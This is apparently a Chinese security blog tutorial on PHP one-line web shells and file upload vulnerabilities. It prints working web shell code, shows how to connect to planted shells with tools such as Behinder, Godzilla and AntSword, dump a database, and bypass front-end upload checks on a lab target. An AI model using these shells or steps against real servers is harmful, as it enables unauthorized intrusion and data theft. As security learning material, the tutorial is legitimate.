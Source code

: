 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/weixin_52177486/article/details/136118038)

### 一句话木马

<?php  @system($_GET['cmd']);?>

<?php  @eval($_GET['cmd']);?>

<?php  ?> 是 [php 代码](https://so.csdn.net/so/search?q=php%E4%BB%A3%E7%A0%81&spm=1001.2101.3001.7020)的标志 system() 命令执行函数  $_GET['cmd'] 接收用户通过 get 方式请求提交的以 cmd 为参数的值 @错误抑制符，用户传进的参数有误也不会直接报错或退出。

![](https://img-blog.csdnimg.cn/direct/43005dd5dc894be49bb79f9828e82339.png)

通过物理机访问

![](https://img-blog.csdnimg.cn/direct/c6664bc790b74c5e96f7d7c5e420facc.png)

成功打开服务器上的计算器。

将执行命令函数换成 eval()

![](https://img-blog.csdnimg.cn/direct/fd614cac8e60446dbe3d0fb08e530974.png)

输入 phpinfo 得到 php 的配置信息

![](https://img-blog.csdnimg.cn/direct/265b3297ff7f42ddb378b15d645fb7b3.png)

system() 是执行系统命令和 eval() 将传进来的值按照 php 代码来执行。

在实战环境中，我们不能看到服务器上的计算器是否正常开启，所以使用可以看到回显的命令，从而确保正常执行，在当前目录下写一个 2.txt 文件，里面存入内容 123123123.

![](https://img-blog.csdnimg.cn/direct/aea6805a98514bff91dd2888c12b1990.png)

访问创建的文件，访问成功即为成功执行

![](https://img-blog.csdnimg.cn/direct/d6c26a0359984b5886571dfa9160a330.png)

也可以使用 dnslog 平台记录得到系统命令执行成功

![](https://img-blog.csdnimg.cn/direct/e11c9ef1d61e4a5988f1ef9f4bbaf99b.png)

![](https://img-blog.csdnimg.cn/direct/797e33bfd77b4b7bbb22e409f03a0abb.png)

### 文件上传工具

#### 冰蝎

1、生成一个马

![](https://img-blog.csdnimg.cn/direct/5153014c93c14b92808394ab03f3ad77.png)

2、将 shell.php 放在被攻击端服务器中

![](https://img-blog.csdnimg.cn/direct/7c27cd284694401c896bcaf27a6d6ca5.png)

3、新增 shell 进行连接

![](https://img-blog.csdnimg.cn/direct/9344aea0daf940ada4ec1b315e2705f7.png)

![](https://img-blog.csdnimg.cn/direct/bccfd6bd556b4d6b815ac108a8c679d2.png)

4、连接成功

![](https://img-blog.csdnimg.cn/direct/4d4b041ef7ae40f59d251a67d5a2c453.png)

5、实现脱库

![](https://img-blog.csdnimg.cn/direct/2d84be3baeec4a9c8e3b7bae6dde4d51.png)

#### 哥斯拉

1、生成马

![](https://img-blog.csdnimg.cn/direct/9667c0a53f054187a2e6b68231d43acb.png)

![](https://img-blog.csdnimg.cn/direct/9af9d046bae147c18dbfa53ce07412be.png)

2、将生成的马放在被攻击服务器的网页根目录下

![](https://img-blog.csdnimg.cn/direct/81802e727cc348caa6c5abc07648ced4.png)

![](https://img-blog.csdnimg.cn/direct/9027b776b3294cb88c681648eac6ea4e.png)

3、哥斯拉进行连接

![](https://img-blog.csdnimg.cn/direct/effffec47c784af4be0864e4ee2b8308.png)

![](https://img-blog.csdnimg.cn/direct/ed0b85d9ae784ac58254600eb6d7f294.png)

连接成功

![](https://img-blog.csdnimg.cn/direct/6b9173ea4b424eb28ee6437d2e66c2d7.png)

4、点击添加，进入

![](https://img-blog.csdnimg.cn/direct/dfd829d47aea4065b097760f43a70289.png)

有终端以及数据库管理等工具

![](https://img-blog.csdnimg.cn/direct/d62de9f897bf436388350802a73c886b.png)

#### 蚁剑

1、将木马放在网页根目录下

![](https://img-blog.csdnimg.cn/direct/f325ca0783b94509ada80bb08bc56a6e.png)

2、通过 蚁剑连接

![](https://img-blog.csdnimg.cn/direct/ba662bbf81c44b8a87472092647c1650.png)

![](https://img-blog.csdnimg.cn/direct/2851ad7796a647d88383ff565004b550.png)

3、成功连接

![](https://img-blog.csdnimg.cn/direct/45b68a0984f441aea19179f171d6fbb8.png)

![](https://img-blog.csdnimg.cn/direct/91d71757ccd74faea371b9cc96255238.png)

除此之外，蚁剑的插件市场还有很多比较好用的工具

![](https://img-blog.csdnimg.cn/direct/f1c3dce208b94b09aa223a1f5a829284.png)

### 文件上传

用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力（上传 web 脚本能够被服务器解析）通常存在于网页主界面（个人资料，提交文档）、后台登录系统以及许多未关闭的接口。

#### 文件上传漏洞挖掘思路

1、判断对方网站使用的是什么服务器、服务器能够解析的脚本语言（asp、jsp、php）。

2、寻找文件上传点（图片提交、接口提交、编辑器提交、文档提交）可以将文件上传到对方服务器的点。

3、判断文件上传的验证规则。

4、寻找脚本上传之后的路径，看是否可以访问到（如果看到空白的页面说明脚本被解析了、如果没有解析脚本会以文本的方式出现在网页上）。

5、使用文件上传工具连接，尝试执行 whoami 命令。

#### 文件上传漏洞实例

1、判断对方服务器，可以通过抓包

![](https://img-blog.csdnimg.cn/direct/7ffce4a3abd2436f8ede0ac68f096cfa.png)

得到是通过 php 编写的

2、找到文件上传点

![](https://img-blog.csdnimg.cn/direct/41475c992360496caf4f42dd7c8f8034.png)

找到一个上传图片的点

3、判断验证方式

上传文件，进行抓包，没有抓到，说明这里的验证是前端 js 验证跳出的弹窗

![](https://img-blog.csdnimg.cn/direct/84e54bb746164be9b3060a219b9db464.png)

发现是前端验证之后 u，关闭 JavaScript 再进行上传就可以绕过前端验证

![](https://img-blog.csdnimg.cn/direct/44546f49bc8540749f2c2851ed055879.png)

4、找到文件上传的路径，在这里直接显示在页面上 uploads/1.php，但在很多真实场景中需要抓包来确定脚本上传的位置。

![](https://img-blog.csdnimg.cn/direct/111a791025cd457094ef0e691495b324.png)

访问后得到一个空白页面，可能是脚本执行成功

5、使用工具进行连接

![](https://img-blog.csdnimg.cn/direct/bc362410509e4c11808b47f1e220770a.png)

成功连接，说明脚本正常上传并且执行。

![](https://img-blog.csdnimg.cn/direct/6c35cbe1d0934372a1ea25c4a3f3e2ee.png)
